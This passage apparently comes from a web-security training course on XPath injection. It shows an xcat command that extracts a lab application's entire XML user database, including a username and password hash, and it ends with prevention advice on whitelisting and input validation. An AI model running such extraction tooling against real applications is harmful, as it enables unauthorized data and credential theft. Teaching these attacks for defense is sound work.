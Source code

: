 ```shell
saxon: False
oob-http: False
oob-entity-injection: False

```

Additionally, we can use `xcat` to exfiltrate the entire XML document:

```shell
xcat run http://172.17.0.2/index.php username username=admin -m POST --true-string=successfully --encode FORM

<users>
        <user>
                <username>
                        kgrenvile
                </username>
                <password>
                        cf9f2931ea9c3deb33e4405b420c4c99
                </password>
                <desc>
                        Internal Test Account 1
                </desc>
        </user>
        <SNIP>
</users>

```

* * *

## Prevention

While `prepared statements`/ `stored procedures` can prevent injections in SQL queries, not all programming languages and libraries provide an equivalent for XPath queries. Therefore, proper (manual) sanitization is the only universal method of preventing XPath injection vulnerabilities.

Generally, we must treat all user input as untrusted and perform sanitization before inserting it into an XPath query. The simplest and most secure way is implementing a whitelist that only allows alphanumeric characters in the user input inserted into the XPath query. The web application can then reject any input that contains characters that are not whitelisted.

Additionally, verifying the expected data type and format when performing sanitization is crucial. If the web application expects an integer, it must verify that the user input consists of only digits. When applicable, we can additionally perform checks for semantical correctness. For instance, if a variable can only assume a fixed set of values, we can check that the user input conforms to these semantical rules in addition to the syntactical ones. An example would be the GET parameter `f` in the previous sections, which can only assume the values `fullstreetname` and `streetname`. The web application can thus check if the user input matches one of these values and is thus semantically correct.

Alternatively to the whitelist approach, a blacklist approach blocking the following XPath control characters is also sufficient, though a whitelist is always preferable:
